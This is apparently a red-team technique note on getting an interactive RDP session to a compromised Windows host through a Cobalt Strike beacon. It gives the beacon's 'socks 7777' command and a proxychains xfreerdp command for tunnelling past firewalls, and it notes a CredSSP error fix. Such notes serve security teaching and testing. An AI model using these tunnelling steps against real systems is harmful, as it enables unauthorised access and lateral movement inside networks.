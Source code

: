 ```yaml
---
description: 'Lateral Movement, Tunnelling, Firewall Evasion'
---
```


# From Beacon to Interactive RDP Session

This is a quick note showing how to get an interactive Remote Desktop Session \(RDP\) session from a Cobalt Strike beacon by leveraging socks proxy and proxychains.

## Socks Proxy

Say we have compromised a box and we have a beacon running on it:

![](../../.gitbook/assets/image%20%2814%29.png)

The same compromised machine is listening on 3389, meaning it accepts incoming RDP connections:

![](../../.gitbook/assets/image%20%28135%29.png)

Most often you will not be able to reach the machine via RDP from the outside due to corporate and host firewalls, however not all is lost - the machine is still reachable over RDP via sock proxy capability that the beacon provides.

Using the beacon we control, let's create a socks proxy on port 7777. This will expose a TCP port 7777 on the teamserver:

```text
socks 7777
```

![](../../.gitbook/assets/image%20%2824%29.png)

## Proxychains

With the socks proxy create, we can now jump onto any linux box \(Kali in my case\) and configure proxychains to point it to the teamserver and the port we've just exposed:

![](../../.gitbook/assets/image%20%2830%29.png)

We can now connect to the compromised box via RDP using xfreerdp:

{% code-tabs %}
{% code-tabs-item title="attacker@kali" %}
```text
proxychains xfreerdp /v:127.0.0.1:3389 /u:spotless
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Below illustrates a successful RDP connection was established although the user on the other end \(me\) killed the session:

![](../../.gitbook/assets/image%20%28199%29.png)

{% hint style="warning" %}
**If you are getting...**  
`Error: CredSSP initialize failed, do you have correct kerberos ticket initialized?  
Failed to connect, CredSSP required by server`

Suggestion is to use `xfreerdp` instead of `rdesktop` and the issue will go away.
{% endhint %}

![CredSSP error using rdesktop](../../.gitbook/assets/image%20%2876%29.png)

